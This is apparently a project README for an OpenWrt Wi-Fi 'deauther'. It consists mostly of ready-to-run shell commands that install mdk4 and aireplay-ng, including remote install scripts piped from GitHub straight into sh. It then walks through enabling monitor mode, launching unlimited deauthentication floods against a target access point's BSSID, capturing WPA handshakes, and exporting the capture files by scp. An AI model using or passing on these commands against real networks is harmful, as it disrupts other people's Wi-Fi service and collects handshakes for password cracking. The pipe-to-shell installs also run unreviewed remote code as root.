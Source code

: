 # openwrt deauther based on airplay-ng and mdk4
- Functions similar on kali
- Can also capture WPA Handshakes
- Stable on openwrt version 22.03.*

## Root access 
```sh
ssh root@192.168.1.1
```
```sh
telnet 192.168.1.1
```
# Mipsel_24kc only 
> Any Openwrt running in this RoC is supported by [mdk4](https://downloads.openwrt.org/releases/23.05.5/targets/ramips/)
 - mt7620
 - mt7621
 - mt76x8
 - rt288x
 - rt305x
 - rt3883
 - 
```sh
opkg update && wget -O mdk4.ipk https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/mdk4_4.2-5_mipsel_24kc.ipk && opkg install mdk4.ipk
```

# Auto install 
```sh
opkg update && wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/install.sh | sh
````

# Using aireplay-ng 
```sh
sh wlan0mon.sh && airodump-ng wlan0mon
```
> ctrl + c
```sh
aireplay-ng wlan0mon --deauth 0 -a (Mac BSSID)
```
# Monitor Mode 
```sh
wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/wlan0mon.sh | sh
```
# Run
```sh
sh wlan0mon.sh
```
# Using mdk4
```sh
sh wlan0mon.sh && mdk4 wlan0mon d
```
## Manual
> More info
 - aireplay-ng --help
 - airodump-ng --help
 - aircrack-ng --help

`iw phy phy0 interface add wlan0mon type monitor`

`ip link set wlan0mon up`

`airodump-ng wlan0mon`

`aireplay-ng wlan0mon --deauth 0 -a 32:AA:E4:18:90:45 --ignore-negative-one`

- -a | bssid -a (32:AA:E4:18:90:45)

## Export handshake or files from openwrt to local storage
> [!Tip]
> install SFTP server in both system in order that SCP to work

> Openwrt: `opkg install openssh-sftp-server`

> Linux/Termux: `apt install openssh-sftp-server`

- Termux Terminal 
```sh
scp root@192.168.1.1:*.cap storage/downloads
```
- Kali terminal 
```sh
scp root@192.168.1.1:*.cap /home/*/Downloads
```

> [Hint!]
 - * .cap - export any name with .cap file format
